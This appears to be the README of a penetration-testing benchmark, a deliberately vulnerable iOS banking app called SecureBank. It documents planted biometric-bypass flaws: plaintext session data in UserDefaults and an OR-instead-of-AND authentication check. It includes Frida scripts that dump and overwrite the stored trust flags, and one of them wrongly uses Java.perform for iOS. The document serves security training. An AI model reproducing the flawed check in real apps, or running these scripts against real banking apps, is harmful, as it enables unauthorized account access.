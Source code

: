 # SecureBank: iOS Biometric Authentication Bypass

## Vulnerability Overview

### Description
This iOS application, SecureBank, is a penetration testing benchmark designed to demonstrate critical vulnerabilities in biometric authentication. The app intentionally implements flawed security controls, allowing attackers to bypass biometric checks through several vectors, including insecure data storage, logic flaws, and weak template management. These vulnerabilities enable unauthorized access to sensitive banking information without valid biometric credentials.

### Vulnerability Type and Category
**Primary Type:** Bypass of Biometric Authentication

**Categories:**
- Improper Authentication (CWE-287)
- Cleartext Storage of Sensitive Information (CWE-312)
- Insecure Storage of Sensitive Information in a Mobile Application (CWE-922)

**Difficulty:** Medium

## Technical Details & Attack Vectors
The application contains multiple, distinct vulnerabilities that can be chained or exploited independently.

### 1. Insecure Authentication Session Storage 🚨
**Location:** ContentView.swift, specifically the storeBiometricTemplate() method.

**Description:** The application stores critical authentication session data, including tokens and device trust flags, as plain text in UserDefaults. This data can be easily read and manipulated by runtime tools, allowing an attacker to replay sessions or falsely establish device trust.

**Vulnerable Data Keys in UserDefaults:**
- `biometric_session_token` // Plain text session identifier for replay attacks
- `biometric_auth_hash` // Replayable authentication hash
- `is_trusted_biometric_device` // Boolean flag to bypass future checks
- `last_successful_auth_time` // Timestamp that can be manipulated
- `authenticated_device_id` // Insecure "trusted device" identifier

### 2. Authentication Logic Bypass 🚨
**Location:** ContentView.swift, within the handleAuthenticationResult() method.

**Description:** A critical logic flaw exists in the authentication result handler. The code uses a logical OR (||) instead of an AND (&&) to check the authentication status. This allows an attacker to gain access when success=false but error=nil (a state achievable by canceling the biometric prompt or having no biometrics enrolled).

**Vulnerable Code:**
```swift
// VULNERABLE: Condition is true when success=false and error=nil
if success || error == nil {
    self.isLoggedIn = true // Access granted!
}
```

### 3. Weak Biometric Template Generation & Injection 🚨
**Location:** BiometricTemplateManager.swift.

**Description:** The application generates predictable biometric "templates" using simple string concatenation instead of secure cryptographic methods. Furthermore, there is no validation, allowing an attacker to inject a malicious or known template to bypass authentication.

## Exploitation Guide

### Phase 1: Reconnaissance (Static Analysis)
Identify vulnerable code patterns and storage locations using simple grep commands.

```bash
# Find biometric logic and LocalAuthentication usage
grep -r "biometric" .
grep -r "LocalAuthentication" .

# Look for insecure storage in UserDefaults
grep -r "UserDefaults.standard" .
grep -r "biometric_session_token" .

# Identify the logic flaw
grep -r "success || error == nil" .
```

### Phase 2: Dynamic Analysis (No Jailbreak Required)
Use runtime tools like Frida or Objection to inspect the application's memory and storage.

**Step 2.1: Dump UserDefaults**
Access UserDefaults to find the insecurely stored session data.

```bash
# Using Objection on a non-jailbroken device
objection -g "SecureBank" explore
ios nsuserdefaults get

# Using Frida on a non-jailbroken device
frida -U -f co.ostorlab.bank -l dump_userdefaults.js
```

**Step 2.2: Extract Session Data with Frida**
This script targets and extracts the specific biometric session keys.

```javascript
// Frida script to extract session data
Java.perform(function() {
    const userDefaults = ObjC.classes.NSUserDefaults.standardUserDefaults();
    const sessionKeys = [
        "biometric_session_token", "biometric_auth_hash",
        "is_trusted_biometric_device", "last_successful_auth_time"
    ];

    console.log("--- Dumping Biometric Session Data ---");
    sessionKeys.forEach(key => {
        const value = userDefaults.objectForKey_(key);
        console.log(`[+] ${key}: ${value}`);
    });
});
```

### Phase 3: Exploitation

**Exploit 1: Authentication Logic Bypass**
1. Ensure no biometric data (Face ID/Touch ID) is enrolled on the device/simulator.
2. Launch the SecureBank app and trigger the biometric authentication prompt.
3. Cancel the prompt.
4. **Result:** The application grants access because the `error == nil` condition is met, successfully bypassing authentication.

**Exploit 2: Session Data Injection & Device Trust Bypass**
Manipulate the insecurely stored data to gain persistent access.

1. Authenticate successfully once to populate UserDefaults with valid session data.
2. Use Frida to overwrite the stored values with malicious data.

```javascript
// Frida script to inject bypass data
var userDefaults = ObjC.classes.NSUserDefaults.standardUserDefaults();

// Set device as trusted to bypass future checks
userDefaults.setBool_forKey_(true, "is_trusted_biometric_device");
userDefaults.setObject_forKey_("attacker_device_id", "authenticated_device_id");

// Inject a predictable hash for future replay
userDefaults.setObject_forKey_("deadbeef", "biometric_auth_hash");

userDefaults.synchronize();
console.log("🚨 Bypass data injected! Relaunch the app.");
```

3. **Result:** Upon relaunch, the app considers the device "trusted" and may grant access without a biometric prompt.

## Detection Indicators

**Static Indicators:** The presence of UserDefaults being used to store any data named `token`, `session`, `hash`, or `trusted`. Logical conditions like `if success || error == nil` in authentication callbacks.

**Dynamic Indicators:** Plain-text authentication data visible in UserDefaults dumps. Successful authentication after canceling the biometric prompt.

**Runtime Indicators:** Console logs revealing template storage locations or session information.

